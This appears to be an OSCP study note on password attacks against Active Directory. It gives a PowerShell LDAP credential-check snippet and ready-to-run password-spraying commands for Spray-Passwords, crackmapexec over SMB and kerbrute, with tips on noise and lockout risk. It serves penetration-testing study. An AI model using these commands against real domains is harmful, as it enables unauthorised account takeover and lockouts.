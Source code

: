 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/2-password-attacks/"}
---
```


------
Enumerate account policy:
```
net accounts
```
---------------
### Manual LDAP Password Attack:
- Local method
- Low and slow attack method
- Run lines separately or as a script
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<user>", "<password>")
```
- If credentials are correct the object creation is successful
--------------
### Automatic LDAP Attack with Spray-Passwords:
- https://github.com/ZilentJack/Spray-Passwords
- Does not require any admin access.
- Generates a lot of traffic and is not opsec safe
- Usage:
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

#Multiple passwords: -Pass 'Password1,Password2'
#Download wordlist: -Url <url>
```
--------------
### SMB Password Attack with crackmapexec:
- Remote method
- Crackmap does not take password policy into account so be cautious
- Traditional attack approach in AD
- Drawback that full SMB connection has to be made for every try
- Very noisy and quite slow
```bash
sudo crackmapexec smb <ip-on-domain> -u users.txt -p 'Nexus123!' -d <domain> --continue-on-success
```
- "Pwn3d!" indicates admin user!
----------
### Kerberos TGT Attack with kerbrute:
- Cross-platform method
- If username and password are correct a cached Kerberos ticket is obtained.
- Only uses two UDP frames every try (only AS-REQ).
- Local usage:
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d <domain> .\usernames.txt "password123!"
```
- If receives network error make sure usernames file is of ANSI encoding.
